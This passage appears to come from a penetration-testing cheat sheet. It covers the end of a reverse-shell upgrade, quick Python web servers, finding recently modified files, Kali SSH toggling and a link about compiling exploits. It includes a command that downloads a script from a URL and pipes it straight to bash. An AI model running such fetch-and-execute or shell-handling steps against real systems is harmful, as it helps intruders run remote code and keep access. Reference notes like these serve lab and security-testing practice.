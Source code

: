 ```
fg
```


Now the shell should pop up, if its not interactive with autocomplete run:

```
bash
```

You can also make this nicer with cols and rows if needed.


### [](#header-3)Python webserver

Python2

```
python -m SimpleHTTPserver
```


Python3

```
python3 -m http.server
```

### [](#header-3)Misc

Last edited files (10 minutes).

```
find / -mmin -10 2>/dev/null | grep -Ev "^/proc"
```

Compile exploits:

<a href>https://medium.com/@_____________/compiling-exploits-4ec7bb9ec03c</a>

Download a file with curl.

```
curl http://some.url --output some.file
```

Download a file and run it with curl.

```
curl http://some.url | bash
```

Start and stop SSH-server Kali.

Start

```
sudo systemctl start ssh.socket 
```

Stop

```
sudo systemctl stop ssh.socket
```
